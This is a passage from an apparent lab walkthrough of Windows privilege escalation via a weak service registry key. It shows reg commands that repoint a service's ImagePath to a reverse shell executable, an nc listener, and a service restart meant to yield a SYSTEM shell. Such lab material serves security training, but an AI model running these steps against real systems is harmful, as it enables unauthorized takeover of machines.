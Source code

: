 ```powershell
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] Everyone
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Start
                Stop
                Read Permissions
```

Check the current values in the registry entry:

```powershell
PS C:\Users\user> reg query "HKLM\System\CurrentControlSet\Services\Insecure Registry VulnService"

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Insecure Registry VulnService
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\VulnService.exe"
    DisplayName    REG_SZ    Insecure Registry VulnService
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Insecure Registry VulnService\Security
```

> Note: We're gonna change the **ImagePath** registry key and as we can see from the **ObjectName** registry key, this service runs as LocalSystem `NT AUTHORITY\SYSTEM`.

Overwrite the **ImagePath** registry key to point to the `reverse.exe` executable we created:

```powershell
PS C:\Users\user> reg add "HKLM\SYSTEM\CurrentControlSet\services\Insecure Registry VulnService" /v ImagePath /t REG_EXPAND_SZ /d C:\Tools\reverse.exe /f
The operation completed successfully.
```

Then in the attacker host, we'll set up a `nc` listener:

```shell
nc -lvnp 443
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```powershell
PS C:\Users\user> net stop "Insecure Registry VulnService"
The Insecure Registry VulnService service is stopping.
The Insecure Registry VulnService service was stopped successfully.

PS C:\Users\user> net start "Insecure Registry VulnService"

```
